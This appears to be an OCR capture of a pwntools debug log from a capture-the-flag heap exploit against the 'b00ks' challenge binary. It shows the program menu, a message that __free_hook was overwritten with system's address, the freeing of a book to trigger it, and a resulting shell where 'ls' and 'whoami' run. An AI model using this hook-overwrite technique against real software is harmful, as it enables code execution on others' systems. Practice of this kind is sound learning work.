 ```powershell
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> '
[+] Now __free_hook's address is system's address!
[*] We just need to free book2.
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x26 bytes:
    'Enter the book id you want to delete: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[*] Ready in 3 seconds...
[+] PWN!!
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x9d bytes:
    '1.py\tpwndbg-dev\t  Pygments-2.6.1.tar.gz\n'
    'b00ks\tpwndbg-dev.zip\t  unicorn-1.0.2rc3-py2.py3-none-manylinux1_x86_64.whl\n'
    'core\tpwntools-dev\n'
    'end.py\tpwntools-dev.zip\n'
1.py    pwndbg-dev      Pygments-2.6.1.tar.gz
b00ks    pwndbg-dev.zip      unicorn-1.0.2rc3-py2.py3-none-manylinux1_x86_64.whl
core    pwntools-dev
end.py    pwntools-dev.zip
$ whoami
[DEBUG] Sent 0x7 bytes:
    'whoami\n'
[DEBUG] Received 0x7 bytes:
    'ubuntu\n'
ubuntu
$  
```

